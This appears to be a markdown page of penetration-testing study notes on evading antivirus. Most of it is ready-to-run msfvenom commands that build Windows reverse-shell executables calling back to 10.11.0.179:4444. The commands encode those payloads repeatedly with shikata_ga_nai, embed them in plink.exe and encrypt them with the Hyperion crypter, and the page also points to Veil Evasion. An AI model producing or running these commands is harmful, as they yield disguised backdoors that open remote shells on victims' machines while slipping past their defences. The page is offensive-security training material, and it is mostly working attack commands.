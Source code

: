 # Avoid Antivirus
the `msfpayload` and `msfencode` have beeb depricated in Metasploit in favour of `msfvenom` - however the results of the following experiment would stay the same.  

## msfvenom
- `msfvenom --list payloads`
- `msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.179 LPORT=4444 -o shell_reverse.exe`  
- `msfvenom -p windows/shell_reverse_tcp -o reverse_shell_tcp.exe --platform windows --arch x86 LHOST=10.11.0.179 LPORT=4444`

> we'll submit our executable to `virustotal` [https://www.virustotal.com/gui/home
> we'll manipulate our reverse_shell executable further in order to try and avoid as many AV's as possible.

## encoders
```
msfvenom -l encoders
x86/shikata_ga_nai            excellent  Polymorphic XOR Additive Feedback Encoder
```
> we'll now generate our reverse shell payload via `shikata_ga_nai` encoder, 9 times.
`msfvenom --payload windows/shell_reverse_tcp --out reverse_shell_tcp.exe --encoder x86/shikata_ga_nai --iterations 9 --platform windows --arch x86 LHOST=10.11.0.179 LPORT=4444`

## embeddint in executables
We'll Specify a custom executable file to use as a template  
```
msfvenom --payload windows/shell_reverse_tcp --encoder x86/shikata_ga_nai --iterations 9 --platform windows --arch x86 -x /usr/share/windows-binaries/plink.exe -f exe LHOST=10.11.0.179 LPORT=4444 > reverse_shell_tcp_embedded.exe
```
> results are not as good as we tought they'll be. but are improved.

## Packers and Crypters
### Hyperion
> We'll use `Hyperion` (cross compiled on kali for windows os)
```
wget https://github.com/nullsecuritynet/tools/raw/master/binary/hyperion/release/Hyperion-1.2.zip
unzip Hyperion-1.2.zip
i686-w64-mingw32-c++ Hyperion-1.2/Src/Crypter/*.cpp -o hyperion.exe
# for older versions of Kali
i586-mingw32msvc-c++ Hyperion-1.0/Src/Crypter/*.cpp -o hyperion.exe
# or simply download it from https://github.com/Veil-Framework/Veil-Evasion/blob/master/tools/hyperion/hyperion.exe
```
```
i686-w64-mingw32-g++ Src/Crypter/*.cpp -o hyperion.exe
wine hyperion.exe reverse_shell_tcp_embedded.exe reverse_shell_tcp_embedded_crypted.exe
```

### Veil Framework
> https://github.com/Veil-Framework/Veil
> https://www.veil-framework.com/
- Evasion => Generates Anti-Virus avoiding executables
- Ordnance => Generates shellcode for supported payloads

### costume code/payloads (not mainstreamd)
- cross-compile any `c` code on kali linux
``` 
i686-w64-mingw32-c++ test.c -o test.exe
```
- use `pyinstaller` to convert `python script` to `exe`


